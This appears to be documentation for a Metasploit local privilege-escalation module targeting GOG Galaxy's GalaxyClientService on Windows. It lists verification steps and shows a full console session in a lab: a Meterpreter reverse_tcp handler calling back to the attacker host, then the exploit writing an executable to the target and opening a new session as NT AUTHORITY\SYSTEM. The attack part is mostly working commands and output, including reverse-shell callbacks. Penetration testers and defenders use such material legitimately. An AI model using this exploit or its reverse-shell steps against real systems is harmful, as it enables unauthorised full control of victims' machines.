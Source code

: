 ## Vulnerable Application

GOG Galaxy is a video game management client. One of its Windows services, *GalaxyClientService*, runs with *SYSTEM* privileges.
In versions 2.0.12 and earlier, and 1.2.64 and earlier, it is possible to communicate with the service and instruct it to
execute arbitrary commands as *SYSTEM*.

A vulnerable [version](https://www.gog.com/galaxy) need only be installed on the target machine in order to be exploitable.

## Verification Steps

  1. Start *msfconsole*.
  2. Acquire a Meterpreter session.
  3. Do: ```use exploit/windows/local/gog_galaxyclientservice_privesc```
  4. Do: ```set SESSION <session_no>```
  5. Do: ```exploit```
  6. Verify that you get a Meterpreter session.

## Options
### WORKING_DIR

The initial working directory of the command.

## Scenarios
### GOG Galaxy Client `v1.2.66.64` on Windows 10

```
msf > use multi/handler
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Sending stage (201283 bytes) to 192.168.37.131
[*] Meterpreter session 1 opened (192.168.37.1:4444 -> 192.168.37.131:50855) at 2020-06-15 08:35:15 -0500

meterpreter > getuid
Server username: DESKTOP-AQT4EG1\space
meterpreter > sysinfo
Computer        : DESKTOP-AQT4EG1
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 15
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/gog_galaxyclientservice_privesc
msf exploit(windows/local/gog_galaxyclientservice_privesc) > set session 1
session => 1
msf exploit(windows/local/gog_galaxyclientservice_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/gog_galaxyclientservice_privesc) > set lhost 192.168.37.1
lhost => 192.168.37.1
msf exploit(windows/local/gog_galaxyclientservice_privesc) > check
[*] The target appears to be vulnerable. Vulnerable version found: 1.2.66.64
msf exploit(windows/local/gog_galaxyclientservice_privesc) > run

[*] Started reverse TCP handler on 192.168.37.1:4444
[*] Starting GalaxyClientService...
[*] Service started successfully.
[*] Connecting to service...
[*] Writing C:\Users\space\AppData\Local\Temp\mqslPXvWyu.exe to target
[*] Connected to service.  Sending payload...
[*] Sending stage (201283 bytes) to 192.168.37.131
[*] Meterpreter session 2 opened (192.168.37.1:4444 -> 192.168.37.131:50857) at 2020-06-15 08:35:59 -0500
[+] Command executed successfully!

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-AQT4EG1
OS              : Windows 10 (10.0 Build 18362).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 15
Meterpreter     : x64/windows
```
